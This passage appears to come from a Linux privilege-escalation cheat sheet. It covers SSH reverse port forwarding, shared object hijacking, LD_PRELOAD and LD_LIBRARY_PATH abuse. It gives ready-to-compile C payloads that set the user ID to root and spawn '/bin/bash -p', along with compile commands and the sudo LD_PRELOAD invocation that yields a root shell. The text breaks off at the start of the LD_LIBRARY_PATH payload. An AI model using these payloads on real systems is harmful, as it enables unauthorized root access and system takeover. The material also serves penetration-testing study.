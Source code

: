 ### 12) Port Forwarding
In some instances, a root process may be bound to an internal port, through which it communicates. If, for some reason, an exploit cannot run locally on the target machine, the port can be forwarded using SSH to your local machine:
`ssh -R <local-port>:<127.0.0.1>:<service-port> <username>@<local-machine>`

### 13) Shared Object Hijacking
Run `strace` on a program to see whether shared objects are being loaded.
```bash
strace <program> 2>&1 | grep -iE "open|access|no such file"
```
`.so` file payload:
```C
# Compile with gcc -shared -fPIC -o shared.so shared.c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

### 14) LD_PRELOAD
Environment variable which can be set to the path of a shared object `.so` file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an `init()` function, we can execute code as soon as the object is loaded. Limitations:
1) LD_PRELOAD will not work if the real user ID is different from the effective user ID
2) sudo must be configured to preserve the LD_PRELOAD environment variable using the env_keep option
	1) `sudo -l` in its output will show `env_keep+=LD_PRELOAD` if this is true

Attack: check above that LD_PRELOAD is allowed as env_keep in `sudo -l`, then:
```C
# Compile with 'gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
Run against a program with `sudo LD_PRELOAD=/tmp/preload.so find`
We should now have a root shell. *NOTE: as a security measure, this will not work against SUID files. Only files that we can run `sudo` directly on.*

### 15) LD_LIBRARY_PATH (does not work against SUID)
The LD_LIBRARY_PATH environment variable contains a set of directories where shared libraries are searched for first. The `ldd` command can be used to print the shared libraries used by a program:
`ldd /usr/sbin/apache2`
By creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.
Attack:
Run `ldd` against SUID-able program:
`ldd /usr/sbin/apache2`
- Note: hijacking shared objects using this method is hit or miss. Choose one from the list and try it (`libcrypt.so.1` seems to work well)
```C
# Compile with 'gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c'
#include <stdio.h>
```